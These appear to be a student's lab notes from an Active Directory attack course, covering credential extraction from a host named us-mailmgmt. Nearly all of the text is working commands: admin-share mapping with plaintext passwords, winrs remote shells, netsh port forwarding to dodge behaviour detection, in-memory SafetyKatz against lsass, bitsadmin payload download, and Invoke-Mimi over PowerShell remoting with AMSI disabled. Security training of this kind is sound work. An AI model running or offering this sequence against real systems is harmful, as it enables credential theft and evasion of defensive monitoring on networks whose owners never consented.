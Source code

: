 
Task 
• Extract credentials of interactive logon sessions and service accounts from us-mailmgmt.

We can use either winrs and open-source binaries or PowerShell Remoting and Invoke-Mimi.ps1. Let us try them one by one.

```
net use x: \\us-mailmgmt\C$\Users\Public /user:usmailmgmt\Administrator t7HoBF+m]ctv.]
```

```
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
```

```
net use x: /d
```


![[Pasted image 20250317193023.png]]

we can download and run SafetyKatz in memory using Loader. To bypass behaviour detection of SafetyKatz we need to perform an additional step. We need to forward traffic from local (target) machine to the student VM. This way, the download always happens from 127.0.0.1

Run the following commands to connect to us-mailmgmt using winrs and forward the traffic. Remember to modify the IP address in connectaddress in the netsh command to your student VM:

```
winrs -r:us-mailmgmt -u:.\administrator -p:684@@2O0Ybz$#N cmd
```

```
netsh interface portproxy add v4tov4 listenport=8080listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.139
```

![[Pasted image 20250317193439.png]]

Now, we will use the Loader.exe to run SafetyKatz.exe from memory to extract credentials from the lsass process. Remember to host SafetyKatz.exe on a local web server on your Student VM.

Use ArgSplit.bat on the student VM to encode "sekurlsa::ekeys":

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn%" "exit"
```

![[Pasted image 20250317193841.png]]

we could also use bitsadmin, a Microsoft signed binary to download NetLoader on usmailmgmt. Remember to host Loader.exe on a local web server on your student VM.

```
winrs -r:us-mailmgmt -u:.\administrator -p:-7v0;-X$(41w@[  "bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe
```

### PowerShell Remoting and Invoke-Mimi

We will use Invoke-Mimi on us-mailmgmt to extract credentials.

```
$passwd = ConvertTo-SecureString '-7v0;-X$(41w@[' -AsPlainText -Force
```

```
$creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
```

```
 $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
```

We need to disable AMSI for the PSSession so that we can use the stock Invoke-Mimi.ps1 script. To avoid disabling AMSI, you can use modified Invoke-Mimi instead:

```
Enter-PSSession $mailmgmt
```

![[Pasted image 20250317195042.png]]

disable the AMSI In mailmgmt and exit

![[Pasted image 20250317195318.png]]

